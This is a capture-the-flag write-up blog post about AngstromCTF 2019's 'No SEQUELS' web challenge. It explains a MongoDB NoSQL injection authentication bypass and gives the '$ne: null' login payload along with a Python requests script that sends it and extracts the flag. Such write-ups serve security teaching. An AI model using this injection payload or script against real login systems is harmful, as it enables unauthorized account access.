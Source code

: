 ```yaml
---
title: "AngstromCTF 2019 | No SEQUELS and No SEQUELS 2 Web Writeup"
author: "CHERIEF Yassine (omega_coder)"
date: 2019-04-26T01:49:01+02:00
image: "https://res.cloudinary.com/https-omega-coder-github-io/image/upload/b_rgb:000000,o_49/v1556407284/Screenshot_2019-04-28_01-17-11.png"
subtitle: "Mongodb Authentification bypass and Blind Injection"
tags: ["ctf", "nosql", "mongodb", "nosql-injection", "web", "writeup"]
categories: ["writeups", "security"]
bigimg: [{"src": "https://res.cloudinary.com/https-omega-coder-github-io/image/upload/b_rgb:000000,o_20/v1556407284/Screenshot_2019-04-28_01-17-11.png", "desc": "NoSQL Injection on Mongodb"}]
---
```



This blog post contains the writeup for two challenges (No SEQUELS & No SEQUELS 2), because they are related.

So let's start with No SEQUELS first.

**Category:** Web  
**Points:** 50  

-----------------------------

## Challenge Description 
> The prequels sucked, and the sequels aren't much better, but at least we always have the [original trilogy](https://nosequels.2019.chall.actf.co).

> Hint said : *MongoDB is a safer alternative to SQL, right?*

#### What we can get from the informations stated above ?

- They are using MongoDB as a NoSQL engine.
- we can guess from hint that its a simple Auth bypass with MongoDB NoSQL injection.

We are presented a part of the source code of how the authentication happens.

![no_sequels_source_code](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1556371044/1_xKB1P9_JsMbdjYLkCsnHvw.png)

### Exaplanation

This simple authentication uses `JWT` (JSON Web Tokens), trying to hack the token won't help because the JWT token is being signed with a `secret key` and we don't know the key actually.

After reading the code, this is clearly a NoSQL Injection because of unsanitized user input.

The following two lines show that the variables username and password are not sanitized by anyway.

```js
var user = req.body.username;
var pass = req.body.password;
```

One more thing to notice, the line below show that the body can be parser using json regarded that we supply some json input with `Content-Type: application/json`.

```js
app.use(bodyParser.json());
```

NoSQL databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional `SQL` syntax.

The unsanitisation of username and password will lead to NoSQL code injection.  

What would happen if we post the following JSON data:

```http
POST https://nosequels.2019.chall.actf.co HTTP/1.1
Content-Type: application/json
{
    "username": {"$ne": null},
    "password": {"$ne": null}
}
```

By Sending this payload the username & password will be parsed as so, thus the query being  

```javascript
var query = {
    username: {"$ne": null};
    password: {"$ne": null};
}
    
```

Now, executing the line below from the app source code will return the first row, and we will be authenticated.  

```javascript
db.collection('users').findOne(query, function(err, user) {
    if (!user) {
        res.send("Wrong username or password");
        return 
    }
    res.cookie('token', jwt.sign({name: user.username, authnticated: true}, secret));
    res.redirect("/site");
});
```
Let's write a script to do the work for us, and get that first `FLAG`.

We will be using python requests module.  


```python
import requests
import re
URL = "https://nosequels.2019.chall.actf.co/login"
payload = '{"username": {"$ne": null}, "password": {"$ne": null}}'
cookies = {"token": "still_dont_know"} 
# we could have done it manually, and replaced the token with
# the token that your browser got for you

# init session
session = requests.Session()
# set re expression for token in headers
jwt_token_re = re.compile(r"token=(.*);")
# Getting the token for the first time

token_req = session.get(URL)
if token_req.status_code == 200:
    m = re.search(jwt_token_re, token_req.headers["Set-Cookie"])
    if m:
        # update token in cookies dict
        cookies["token"] = str(m.group(1))

    # Now let's send the json payload alongside the cookie we got above.
    # we will leave requests default behaviour to follow redirects which will redirect us to /site

flag_re = re.compile(r"actf{.*}")

# make request with mallicious payload

req = session.post(URL, json=payload, cookies=cookies, verify=False)
# verify=False is just for HTTPS connection

if req.status_code == 200:
    # FLAG match
    m = re.search(flag_re, req.text)
    if m:
        print("1st FLAG: ", m.group(0)) 
```

**`FLAG is : actf{no_sql_doesn’t_mean_no_vuln}`**




















